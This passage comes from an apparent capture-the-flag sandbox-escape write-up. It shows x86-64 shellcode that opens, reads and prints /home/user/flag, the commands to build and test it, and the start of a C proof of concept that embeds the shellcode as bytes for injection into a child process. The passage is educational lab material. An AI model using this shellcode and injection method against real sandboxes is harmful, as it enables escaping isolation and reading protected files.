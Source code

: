 ```Assembly
    pushq %rdi                          # store /home/us on stack
    movq %rsp, %rdi                     # %rdi now contains a pointer to
                                        # "/home/user/flag\x00"

    movq $0x2, %rax                     # syscall 2 = open
    xor %rsi, %rsi                      # O_RDONLY = 0
    syscall                             # open("/home/user/flag", O_RDONLY)

    movq %rdi, %rsi                     
    movq %rax, %rdi                     # move fd from %rax into %rdi
    movq $0x100, %rdx                   # count = 256
    movq $0x0, %rax                     # syscall 0 = read
    syscall                             # read(fd = %rdi, %rsp, 256)

    movq %rax, %rdx                     # move number of bytes read to %rdx
    movq $0x1, %rdi                     # write to stdout = 1
    movq $0x1, %rax                     # syscall 1 = write
    syscall                             # write(1, %rsp, <bytes read>)

    xor %rdi, %rdi
    movq $0x3c, %rax
    syscall                             # exit(0)

```

We can validate our shellcode by compiling and linking it:
```
$ as -o cat-flag.o cat-flag.s
$ ld -o cat-flag cat-flag.o
```

After creating a fake flag file on your lab machine at `/home/user/flag` you may validate the functionality:
```
$ ./cat-flag
CTF{SuchFakeFlag}
```

### Putting the pieces together: Proof of Concept

We now have to inject this shellcode into the child process.
In order to make this sandbox escape easier to grasp I put together this simple proof of concept:
```c
// file poc.c
// compile with
// gcc -no-pie -o poc poc.c

#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <signal.h>
#include <unistd.h>
#include <stdio.h>

// this is the shellcode created above (cat-flag.s)
unsigned char code[90] = { '\x48', '\xbf', '\x65', '\x72', '\x2f', '\x66', '\x6c', '\x61', '\x67', '\x00', '\x57', '\x48', '\xbf', '\x2f', '\x68', '\x6f', '\x6d', '\x65', '\x2f', '\x75', '\x73', '\x57', '\x48', '\x89', '\xe7', '\x48', '\xc7', '\xc0', '\x02', '\x00', '\x00', '\x00', '\x48', '\x31', '\xf6', '\x0f', '\x05', '\x48', '\x89', '\xfe', '\x48', '\x89', '\xc7', '\x48', '\xc7', '\xc2', '\x00', '\x01', '\x00', '\x00', '\x48', '\xc7', '\xc0', '\x00', '\x00', '\x00', '\x00', '\x0f', '\x05', '\x48', '\x89', '\xc2', '\x48', '\xc7', '\xc7', '\x01', '\x00', '\x00', '\x00', '\x48', '\xc7', '\xc0', '\x01', '\x00', '\x00', '\x00', '\x0f', '\x05', '\x48', '\x31', '\xff', '\x48', '\xc7', '\xc0', '\x3c', '\x00', '\x00', '\x00', '\x0f', '\x05' };

void do_child_stuff() {
```